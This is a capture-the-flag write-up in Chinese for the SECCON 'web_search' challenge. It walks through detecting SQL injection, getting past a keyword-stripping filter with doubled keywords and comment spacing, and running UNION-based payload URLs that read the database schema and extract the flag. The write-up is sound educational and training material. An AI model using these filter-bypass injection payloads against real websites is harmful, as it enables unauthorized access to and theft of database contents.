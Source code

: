 # web_search

塞一個單引號 => 噴Error

塞兩個單引號 => 正常

塞`'#` => 正常

到此可以確定是SQL Injection

接著試著踹一下，可以發現他會把一些字串取代成空字串，例如:

`or`, `and`, `%20`, `,`, ...

但繞過方式很簡單，例如`or`就換成`oorr`，`and`就換成`anandd`，`,`可以用JOIN的方式換掉

試著構造`'or 2=2 #`，會發現噴了`The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!`

接著就是深入db找後半flag

<br>

所以我們就能構造出UNION based的SQL injection:

http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/1)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23

撈庫名:

http://web-search.chal.seccon.jp/?q='anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(schema_name)/**/from/**/infoorrmation_schema.schemata)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23

=> seccon_sqli

撈表名:

http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(table_name)/**/from/**/infoorrmation_schema.tables)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23

=> flag

撈欄位名:

http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name=%27flag%27)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23


=> piece


撈後半flag:

http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(piece)/**/from/**/flag)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23

=> `You_Win_Yeah}`



